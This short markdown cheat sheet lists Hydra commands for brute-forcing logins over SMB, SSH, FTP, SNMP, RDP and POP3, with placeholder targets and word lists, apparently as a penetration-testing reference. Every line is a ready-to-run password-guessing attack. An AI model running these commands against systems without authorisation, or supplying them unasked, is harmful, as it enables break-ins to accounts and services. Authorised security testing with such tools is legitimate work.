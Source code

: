 ```yaml
---
layout: article
title: hydra commands
---
```


Bruteforce terminal commands to use with Hydra.

# hydra: bruteforce smb login 
hydra -L users.txt -P passwords.txt -e nsr smb://targetIp

# hydra: bruteforce ssh login (-V, -v verbose)
hydra -l root -P passwordlist ssh://ipv4Address -V

# hydra: bruteforce ftp login
hydra -t 5 -V -f -C /tmp/wordlist ftp://targetIp

# hydra: bruteforce SNMP
hydra -P password-file.txt -v ipv4Address snmp

# hydra: bruteforce Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P /path/to/wordlist.txt rdp://ipv4Address

# hydra: bruteforce POP3
hydra -l userName -P /path/to/wordlist -f ipv4Address pop3 -V
